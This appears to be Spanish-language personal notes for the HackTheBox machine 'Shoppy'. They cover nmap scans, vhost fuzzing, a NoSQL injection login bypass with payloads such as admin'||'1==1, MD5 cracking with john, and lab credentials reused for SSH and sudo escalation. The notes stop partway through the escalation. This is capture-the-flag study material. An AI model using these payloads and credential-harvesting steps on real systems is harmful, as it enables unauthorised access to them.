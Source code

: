 # Shoppy HTB


Primero que nada nos damos cuenta que tiene 3 puerto abiertos

```
nmap -sSV --open -vvv IP
nmap -sC -p 22,80,9093 IP
```

Esto re direcciona a shoppy.htb lo cual nos da indicios de que podria utilizar vhosting

# Fuzzing

```
wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://shoppy.htb/FUZZ 
```


# Vhost Discovery

Virtual hosting es la capacidad de tener varios subdominos ( *.example.com ) en un mismo servidor 

>El virtualhost, o servidor virtual, es una forma de alojamiento web que permite que varias páginas web puedan funcionar en una misma máquina. Hay dos tipos de virtualhost:

Los que se basan en direcciones IP, donde cada página web tendrá una IP diferente.
***Los que se basan en nombres de dominio, donde una sola dirección IP funcionan varias páginas web.***

Aunque el navegador tendrá que diferenciar el tipo de virtualhost a la hora de gestionar la petición, la elección de una u otra no tiene ningún efecto para el usuario.

## WFUZZ

Para encontrar subdominios cuando sospechamos que se esta usando esta tecnica se fuzzea la header Host en busca de un resultado valido lo que indica un subdominio

```

wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/ 

```

## Gobuster

```
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u http://shoppy.htb 
Funciona tambien asi 
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u shoppy.htb
Tambien asi solo lee bien el output
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
```

Encontramos un logging

# No SQL Inyection

De alguna u otra manera ( la cual no entiendo aun) nos dimos cuenta que es una base de datos No SQL MongoDB intentamos unos payloads sencillos.

```
admin'||'1==1
admin'||'1=1
```

Y cualquiera de esos jala. Entramos


# Hash

Ya dentro pues si estas con el usuario admin lo mas logico es que buscaras ese no¿?

```
EL password del usuario admin
hash-identifier
john --format=raw-md5 -w $(locate rockyou.txt)  hashes

admin
emerald 

```

Pero que crees si vuelves a probar una inyeccion te manda no solo el hash de admin si no un usuario josh

```
josh 

remembermethisway

```

## Intrucion

Entramos con el usuario josh al subdominio que encontramos

> http://mattermost.shoppy.htb/shoppy/channels/deploy-machine

Ahi nos damos cuenta que existe un user y pass iniciamos sesion ssh.

```
username: jaeger
password: Sh0ppyBest@pp!
```


Se necesita enumerar los usuarios nos damos cuenta que esta un usuario deploy 

```
sudo -l

```

Ahi nos damos cuenta que comandos se pueden correr podemos correr una password manager como el usuario deploy sin password y sin cambiar de usuaro
hacemos cat en el archivo y nos damos cuenta que el usuario es Sample

```
sudo -u deploy /home/deploy/password-manager
Sample
username: deploy
password: Deploying@pp!

```




















































